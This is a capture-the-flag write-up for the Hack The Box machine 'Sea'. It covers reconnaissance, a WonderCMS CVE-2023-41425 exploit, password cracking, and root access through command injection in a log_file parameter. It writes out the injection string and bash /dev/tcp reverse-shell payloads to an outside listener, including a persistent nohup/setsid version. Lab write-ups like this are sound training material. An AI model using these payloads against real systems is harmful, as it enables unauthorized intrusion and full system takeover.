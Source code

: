 # Sea Writeup - by Thammanant Thamtaranon  
- Sea is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- We began by performing a full TCP port scan with version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.28`  
![Nmap_Scan](Nmap_Scan.png)  
- We added `sea.htb` to our `/etc/hosts` file to enable hostname resolution.

## Scanning & Enumeration  
- We enumerated web directories with:  
  `dirsearch -u http://10.10.11.28`  
![Dirsearch_Scan1](Dirsearch_Scan1.png)  
- The scan revealed a `/contact.php` page.  
![Contact](Contact.png)  
- Further enumeration exposed additional directories.  
![Dirsearch_Scan2](Dirsearch_Scan2.png)  
- We identified the website was running WonderCMS version 3.2.0.  
![CMS](CMS.png)  
![CMS_Version](CMS_Version.png)

## Exploitation  
- Searching for vulnerabilities related to WonderCMS 3.2.0, we discovered **CVE-2023-41425**.  
- The WonderCMS login page was located at `/loginURL`, accessible at `http://10.10.11.28/loginURL`.  
- We obtained a public Proof of Concept (PoC) exploit and executed it successfully.  
![Exploit](Exploit.png)  
- This yielded a shell with `www-data` privileges.  
![Shell](Shell.png)  
- We enumerated users with `cat /etc/passwd`.  
![Users](Users.png)  
- A password hash was discovered in `/var/www/sea/data/database.js`.  
- Using John the Ripper, we cracked the password hash.  
![Cracked](Cracked.png)  
- We then SSH’d into the machine using the recovered credentials, logging in as user `amay`.  
- We obtained the **user flag**.  
- Running `sudo -l` showed that user `amay` could not run any commands with sudo privileges.  
- We checked for open services using:  
  `ss -tulpn`  
![Services](Services.png)  
- Two ports of interest were identified: 8080 and 53173.  
- We focused on port 8080, suspected to be an internal service.  
- We created an SSH tunnel forwarding local port 8080 to the remote port 8080:  
  `ssh amay@sea.htb -L 8080:localhost:8080`  
![Internal](Internal.png)  
- Through trial and error, we discovered that injecting `;id+#` into the `log_file` parameter returned the output of the `id` command, confirming command injection.  
![Injection](Injection.png)  
- We replaced the command with a reverse shell payload:  
  `;bash -i >& /dev/tcp/10.10.16.11/4444 0>&1' #`  
- The root shell connection was unstable and immediately dropped.  
- To stabilize the shell, we modified the payload to use `nohup` and `setsid`:  
  `;nohup setsid bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1' >/dev/null 2>&1 & #`  
- `nohup` ensures the process keeps running if the parent exits, and `setsid` detaches it into a new session.  
![Root](Root.png)  
- This granted us a stable root shell, allowing us to retrieve the **root flag** and complete the machine.
